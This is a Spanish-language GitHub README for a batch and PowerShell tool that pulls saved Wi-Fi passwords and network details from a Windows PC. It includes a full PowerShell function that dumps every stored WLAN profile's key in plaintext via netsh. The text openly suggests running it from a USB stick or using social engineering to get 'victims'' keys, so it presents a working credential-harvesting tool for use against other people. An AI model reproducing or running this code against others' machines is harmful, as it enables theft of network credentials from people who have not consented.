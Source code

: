 # Wi-Fi

![](https://1.bp.blogspot.com/-NZFmbAF5_6U/WfMx3j17FEI/AAAAAAAAId4/uDLKER2aeV8mPgUVfuawP3_5adAj5kg5gCLcBGAs/s1600/Screenshot_4.png)

El programa esta desarrollado en bat y en powershell su objetivo es extraer las contraseña he información de red que tiene un pc ya sea manualmente o automáticamente
Solo las contraseñas guardadas de la pc ,puedes guardar el programa en una USB y ejecutarlo de ahí mismo. o usar diversas técnicas de ingeniería social para poder obtener las claves de tus victimas.. .
- https://lpericena.blogspot.com/2017/10/wiffi.html
- Pasos a seguir
```
1.-Descargar el programa
2.-ejecutamos el programa
3.-opción 1 información de la red inalambrica
4.-opción 2 extraer las claves de wifi manualmente
5.-opción 3 extraer las claves de wifi automáticamente```
hasta finalizar
```
### Código Powershell
- Autor : https://github.com/H3LL0WORLD
```
Function Get-WLAN_Profiles {
	param (
		[ValidateSet('es-ES','en-EN')]
		$LANGUAGE = $Host.CurrentUICulture.Name
	)
	$LANGUAGES = @{
		'es-ES' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'Perfil de todos los usuarios'
			'profile_not_found_text' = 'No se encuentra el perfil'
			'ssid_name_text' 		 = 'Nombre de SSID'
			'network_type_text' 	 = 'Tipo de red'
			'authentication_text'	 = 'Autenticación'
			'encryption_text'	 	 = 'Cifrado'
			'key_text' 				 = 'Contenido de la clave'
		}
		'en-EN' = New-Object psobject -Property @{
			'user_profiles_text' 	 = 'All User Profile'
			'profile_not_found_text' = 'Profile not found'
			'ssid_name_text' 		 = 'SSID name'
			'network_type_text' 	 = 'Network Type'
			'authentication_text'	 = 'Authentication'
			'encryption_text'	 	 = 'Cipher'
			'key_text' 				 = 'Key Content'
		}
	}
	$LANG = $LANGUAGES."$LANGUAGE"

	function getValueByName ( $inputText, $nameString ) {
		$value = "";
		if ([regex]::IsMatch($inputText,"\b$nameString\b","IgnoreCase")) {
			$value = ([regex]::Replace($inputText,"^[^:]*: ","")); 
		}
		return $value.Trim();
	}

	$Profiles = @()
	netsh wlan show profiles | % {
		$profile = getValueByName $_ $LANG.'user_profiles_text';
		if ($profile) {
			$Profiles += $profile
		}
	}

	$WLAN_Profiles = @()
	$rowNumber = -1;
	$Profiles | % {
		$wlan_Profile = netsh wlan show profile $_ key=clear
		if ($wlan_Profile.Contains($LANG.'profile_not_found_text')){
			return
		}
		$InterfaceName = $null
		$wlan_Profile | % {
			if (!($InterfaceName)) {
				$InterfaceName = getValueByName $_ $LANG.'ssid_name_text'
				$InterfaceName = $InterfaceName.Trim('"')
							
				if ($InterfaceName) {
					$row = New-Object PSObject -Property @{
						InterfaceName = $InterfaceName
						SSID = $InterfaceName
						NetworkType=""
						Authentication=""
						Encryption=""
						Key=""
					}
					$rowNumber+=1
					$WLAN_Profiles += $row
					#$WLAN_Profiles | ft
					return
				}
			}
			if (!($WLAN_Profiles[$rowNumber].NetworkType)) {
				$NetworkType = getValueByName $_ $LANG.'network_type_text';
				if ($NetworkType) {
					  $WLAN_Profiles[$rowNumber].NetworkType = $NetworkType
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Authentication)) {
				$Authentication = getValueByName $_ $LANG.'authentication_text';
				if ($Authentication) {
					  $WLAN_Profiles[$rowNumber].Authentication = $Authentication
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Encryption)) {
				$Encryption = getValueByName $_ $LANG.'encryption_text';
				if ($Encryption) {
					  $WLAN_Profiles[$rowNumber].Encryption = $Encryption
				}
			}
			
			if (!($WLAN_Profiles[$rowNumber].Key)) {
				$Key = getValueByName $_ $LANG.'key_text';
				if ($Key) {
					  $WLAN_Profiles[$rowNumber].Key = $Key
				}
			}
		}
	}

	if ($WLAN_Profiles.Count -gt 0) {
		'Total WLAN_Profiles: ' + $WLAN_Profiles.Count
		<#return#> $WLAN_Profiles | Select-Object 		   SSID,
											 Authentication,
														Key,
												 Encryption,
												NetworkType
	} else {
		'No WLAN Profiles found!'
	}
}

```

## Expresiones de Gratitud

* Bueno espero que le sea de utilidad cualquier consulta pueden dirigirse a mis redes sociales:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🐤 twitter             https://twitter.com/LPericena


* Gracias

---
Por [Pericena](https://github.com/Pericena) Donación paypal
https://www.paypal.com/paypalme/lpericena
